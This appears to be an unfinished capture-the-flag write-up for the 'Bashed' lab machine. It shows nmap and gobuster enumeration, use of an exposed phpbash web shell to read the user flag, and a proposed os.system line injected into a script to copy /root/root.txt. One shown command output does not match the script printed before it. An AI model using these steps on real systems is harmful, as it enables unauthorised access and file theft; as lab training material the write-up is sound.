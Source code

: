 # MACHINE CHALLENGE: BASHED

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.68
OS: Linux
```

### NAME OF THE MACHINE AS A HINT?

Something about bash script vulnerability?

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.68 > nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-19 23:44 EST
Nmap scan report for 10.10.10.68
Host is up (0.45s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

So we have 1 open service running - http(80) - Apache httpd 2.4.18 on Ubuntu.

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage we see something called 'Arrexel's Development Site':

```
http://10.10.10.68
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/machines/bashed/index.html.jpg" width=500px/>

##### GOBUSTER

Bruteforce enumeration using `gobuster` yields..

```
$ gobuster -e -u 10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://10.10.10.68/images (Status: 301)
http://10.10.10.68/uploads (Status: 301)
http://10.10.10.68/php (Status: 301)
http://10.10.10.68/css (Status: 301)
http://10.10.10.68/dev (Status: 301)
http://10.10.10.68/js (Status: 301)
http://10.10.10.68/fonts (Status: 301)
```

Poking through each of the discovered directories..

```
/dev/phpbash.min.php
/dev/phpbash.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/php/sendMail.php
/uploads
/images/ajax-document-loader.gif
/images/arrow.png
/images/favicon.png
/images/logo.png
```

##### PHPBASH.PHP

Reading through some of the scripts, came across `/dev/phpbash.php` that
seemed interesting (around line 102):

```
 <script type="text/javascript">
            var username = "";
            var hostname = "";
            var currentDir = "";
            var commandHistory = [];
            var currentCommand = 0;
            var inputTextElement = document.getElementById('inputtext');
            var outputElement = document.getElementById("output");
            var usernameElement = document.getElementById("username");
            getShellInfo();
            
            function getShellInfo() {
                var request = new XMLHttpRequest();
```

Loading this script appears to give us a session on the machine????

```
http://10.10.10.68/dev/phpbash.php
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/machines/bashed/phpbash.php.jpg" width=500px/>

### OWN USER

Using the `phpbash.php` script as a session into the machine:

```
www-data@bashed :/var/www/html/dev# cd /home
www-data@bashed :/home# ls
arrexel
scriptmanager
www-data@bashed :/home# cd arrexel
www-data@bashed :/home/arrexel# ls
user.txt
www-data@bashed :/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### OWN MACHINE

On the machine, there is a directory called `/scripts` which stands out as an
area of interest as it has a `test.py` script owned by user `scriptmanager`
and a `test.txt` file owned by `root`. Wonder if we can some how use this
setup to copy the `/root/root.txt` file out to a place we can access?

```
www-data@bashed :/# ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 /scripts
www-data@bashed :/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Dec 19 21:32 test.txt
www-data@bashed :/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed :/# sudo -u scriptmanager python /scripts/test.py
cat: /root/root.txt.txt: Permission denied
```

Hm.. so I'm stuck.  What I don't know is how to:
1. edit the `test.py` to have the commands I want (e.g. cat /root/root.txt)
```
  import os
  os.system('cat /root/root.txt.txt >> test.txt')
```
2. execute the script with root priviledges
